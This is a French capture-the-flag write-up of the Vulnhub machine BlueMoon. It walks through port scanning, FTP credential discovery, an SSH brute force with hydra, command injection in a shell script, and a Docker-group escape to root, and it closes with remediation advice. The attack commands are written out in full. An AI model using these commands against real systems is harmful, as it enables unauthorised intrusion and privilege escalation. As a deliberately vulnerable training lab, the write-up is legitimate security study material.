# BlueMoon — Vulnhub

**Difficulté :** Moyen
**Catégorie :** Web / FTP / Privilege Escalation / Docker Escape
**Date :** 2025

## Objectif

Obtenir un accès initial sur la machine `192.168.56.7`, progresser jusqu'à
un compte utilisateur, puis escalader les privilèges jusqu'à root.

## Reconnaissance

Découverte de la cible sur le réseau local (ARP scan) puis scan complet des
ports et services :



```bash
sudo nmap -p- -sV 192.168.56.7
```



Résultats :

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | ftp | vsFTPd 3.0.3 |
| 22/tcp | ssh | OpenSSH 7.9p1 Debian 10+deb10u2 |
| 80/tcp | http | Apache httpd 2.4.38 (Debian) |

## Énumération

Énumération des répertoires du service web avec Gobuster :

```bash
gobuster dir -u http://192.168.56.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



Résultat : découverte d'un répertoire caché `/hidden_text` (Status 200).

Connexion au service FTP avec les identifiants `userftp` / `ftpp@assword`
récupérés sur la page cachée. Deux fichiers récupérés : `p_lists.txt` et
`information.txt`.

```bash
ftp 192.168.56.7
# user: userftp / pass: ftpp@assword
get p_lists.txt
get information.txt
```



Le fichier `information.txt` contient un message destiné à l'utilisateur
`robin`, indiquant que son mot de passe est faible et renvoyant vers la
liste `p_lists.txt` comme piste de mots de passe possibles.



**Vulnérabilité identifiée :** mot de passe SSH faible pour l'utilisateur
`robin`, exploitable via bruteforce ciblé avec la wordlist trouvée.

## Exploitation

Bruteforce du service SSH pour l'utilisateur `robin` avec la wordlist
`p_lists.txt` :

```bash
hydra -l robin -P p_lists.txt ssh://192.168.56.7
```



Résultat : mot de passe trouvé — `robin:k4rv3ndh4nh4ck3r`.

Connexion SSH réussie :

```bash
ssh robin@192.168.56.7
```



Premier flag récupéré (`user1.txt`) : `Fl4g{u5er1r34ch3d5ucc355fully}`

## Élévation de privilèges

Dans le répertoire personnel de `robin`, un dossier `project` contient un
script `feedback.sh` exécuté avec `$feedback 2>/dev/null`, où `$feedback`
est une entrée utilisateur non filtrée — une injection de commande directe.

```bash
cd project
cat feedback.sh
./feedback.sh
# Enter Your Name : jerry
# Enter You Feedback About This Target Machine : /bin/bash
```



En entrant `/bin/bash` comme "feedback", le script l'exécute tel quel,
donnant un shell sous l'utilisateur `jerry` :

```bash
id
# uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
cd /home/jerry
cat user2.txt
```



Deuxième flag récupéré (`user2.txt`) : `Fl4g{Y0ur34ch3du53r25uc355ful1y}`

`jerry` appartient au groupe **docker** — vecteur classique d'escalade vers
root, puisque ce groupe permet de monter le filesystem hôte dans un
conteneur privilégié :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
id
# uid=0(root) gid=0(root)
```



Depuis ce shell root obtenu via l'échappement Docker :

```bash
cd /root
cat root.txt
```



Flag final (root) : `Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}`

## Résultat

- [x] User flag obtenu (x2 : robin, jerry)
- [x] Root flag obtenu

## Ce que j'ai appris

L'accès initial reposait sur une chaîne d'indices exposés (page web cachée
→ identifiants FTP → fichiers de piste → mot de passe faible), typique des
scénarios CTF mais révélatrice en environnement réel des dangers de laisser
des identifiants ou indices accessibles publiquement. L'escalade de
privilèges via un script shell vulnérable à l'injection de commande, puis
via l'appartenance au groupe `docker`, illustre deux classes de failles très
fréquentes en entreprise : la mauvaise validation des entrées utilisateur
dans des scripts internes, et l'attribution excessive de droits (le groupe
`docker` équivaut de facto à un accès root sur l'hôte).

## Remédiation

- Sécuriser les services FTP et SSH : désactiver l'accès FTP anonyme/en
  clair, forcer des mots de passe robustes et une politique de verrouillage
  après échecs répétés (protection anti-bruteforce).
- Ne jamais exposer de fichiers d'indices ou d'identifiants sur des pages
  web, même "cachées" (la sécurité par l'obscurité n'est pas suffisante).
- Valider/échapper toute entrée utilisateur dans les scripts shell internes
  ; éviter `eval`/exécution directe d'une variable non filtrée.
- Restreindre l'appartenance au groupe `docker` aux comptes strictement
  nécessaires, ou utiliser des runtimes en rootless mode.
